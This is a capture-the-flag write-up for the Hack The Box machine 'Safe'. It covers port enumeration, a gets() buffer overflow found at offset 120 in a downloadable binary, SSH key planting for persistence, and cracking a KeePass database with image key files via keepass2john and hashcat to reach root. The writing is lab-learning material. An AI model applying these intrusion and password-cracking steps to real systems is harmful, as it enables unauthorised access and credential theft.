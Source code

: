 # Safe

This is the write-up for the box Safe that got retired at the 26th October 2019.
My IP address was 10.10.14.21 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.147    safe.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/safe.nmap 10.10.10.147
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page there is the Apache2 Default Page and nothing else important.
When looking at the source code, there is a comment that is not default that says:
> <!-- 'myapp' can be downloaded to analyze from here its running on port 1337 -->

We can confirm that port 1337 is open with **Nmap**:
```markdown
nmap -p 1337 -sC -sV 10.10.10.147
```

```markdown
PORT     STATE SERVICE
1337/tcp open  waste
```

## Checking port 1337

When connecting to port 1337 via **Netcat**, it displays the output of the `uptime` command and then asks the question:
> What do you want me to echo back?

```markdown
nc 10.10.10.147 1337
```

We can input something and the input string gets echoed back. Simple command injection tricks don't seem to work, so we need to download the file and analyze it.

### Analyzing the app

The file _myapp_ can be downloaded from the initial web page:
```markdown
http://10.10.10.147/myapp
```

It is an ELF file that does the same thing as the service on port 1337, which means that we need to analyze this and then exploit the real service.
I use **gdb** and **radare2** to analyze this.

When looking at the _main function_, we can immediately see that it is vulnerable to a **Buffer Overflow** as it uses the `gets` and `puts` functions.

![Main function](safe_binary-1.png)

So lets execute this with a long string to overflow it on **gdb with gef installed**:
```markdown
(gdb) run

What do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

This results in a _Segmentation Fault_.
In order to see where we return, we need to put a pattern on this buffer.

```markdown
(gdb) pattern create 200
(gdb) pattern search $rsp
```

Running this again with the newly created pattern, it tells us that it found the _Offset on 120 (little-endian)_.
So we can put a memory address after 120, then we can continue the execution of the program.

With the following pattern we can see the registers:
```markdown
python -c 'print("A"\*120 + "B"\*8 + "C"\*8)

# Pattern
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCC
```

![Register of RSP](safe_binary-2.png)

To write a script to exploit this, we need the starting address of the main function, which is at _0x40115f_.
Our goal is to hijack the system call `uptime` that we saw earlier, by putting our own string inside of _RDI_.

I wrote a Python exploit script that can be found in this repository called **safe_exploit.py**.
```markdown
python3 safe_exploit.py
```

After running the script, it opens a connection on the server and we get command execution.

## Privilege Escalation

We started a shell on the box as the user called _user_.
Before we look for an attack surface, it would be practical to drop some SSH keys on the box to get a stable SSH connection.
```markdown
ssh-keygen -f safe

chmod 600 safe
```

Copying the contents of _safe.pub_ on the box into the file _/.ssh/authorized_keys_ and we can login via SSH:
```markdown
ssh -i ssh/safe user@10.10.10.147
```

Looking at the home directory of the user, there are six _JPG image files_ and one _.kdbx file_ which is the extension for **KeePass databases**.
Downloading all files:
```markdown
scp -i ../ssh/safe user@10.10.10.147:* .
```

The images look like normal images and don't have any special metadata in them.
Lets extract the hash with the **KeePass module from JohnTheRipper**:
```markdown
keepass2john MyPasswords.kdbx > keepass_hashes
```

KeePass has the feature to use key files as the password. We can assume that the images could be potential key files for the database, so lets extract the hashes of those:
```markdown
for i in $(ls \*.JPG); do keepass2john -k $i MyPasswords.kdbx | sed "s/MyPasswords/$i/g"; done >> keepass_hashes
```

Now we got seven hashes in the _keepass_hashes_ file that we need to crack:
```markdown
hashcat -m 13400 -O keepass_hashes /usr/share/wordlists/rockyou.txt --user
```

A password from the file with the name _IMG_0547.JPG_ gets cracked and it is:
> bullshit

We can use either **kpcli** as a command line tool or the KeePass GUI tool to open the database.
The root password is in there but root login does not work but it is possible to use it to change the user with `su -` from _user_ to root!
